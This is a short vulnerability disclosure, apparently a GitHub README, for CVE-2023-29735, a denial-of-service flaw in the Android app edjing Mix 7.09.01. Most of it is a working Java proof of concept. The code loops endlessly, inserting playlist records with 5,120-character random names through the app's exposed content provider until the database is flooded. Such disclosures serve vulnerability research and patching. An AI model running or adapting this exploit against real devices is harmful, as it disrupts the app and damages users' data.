 ## Denial of Service exists in edjing Mix（CVE-2023-29735）

Vendor：MWM(http://www.edjing.com/)

Affected product：edjing Mix(com.edjing.edjingdjturntable)

Version：7.09.01

Download link：https://play.google.com/store/apps/details?id=com.edjing.edjingdjturntable

Description of the vulnerability for use in the CVE：An issue found in edjing Mix v.7.09.01 for Android allows a local attacker to cause a denial of service via the database files.



poc：

```java
public void attack(){
    int num = 2;
    while (true) {
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
        String randomString =getRandomString(52);
        String randomString2 =getRandomString(5120);
        Uri uri = Uri.parse("content://com.edjing.edjingdjturntable/playlist");
        ContentValues contentValues = new ContentValues();
        contentValues.put("playlist_id",num);
        contentValues.put("playlist_date_modified",1314234);
        contentValues.put("playlist_date_added",123456);
        contentValues.put("playlist_state",0);
        contentValues.put("playlist_name",randomString2);
        contentResolver.insert(uri,contentValues);
        num ++;
    }
}

public static String getRandomString(int length) {
        String str = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
        Random random = new Random();
        StringBuffer sb = new StringBuffer();
        for (int i = 0; i < length; i++) {
            int number = random.nextInt(62);
            sb.append(str.charAt(number));
        }
        return sb.toString();
}
```



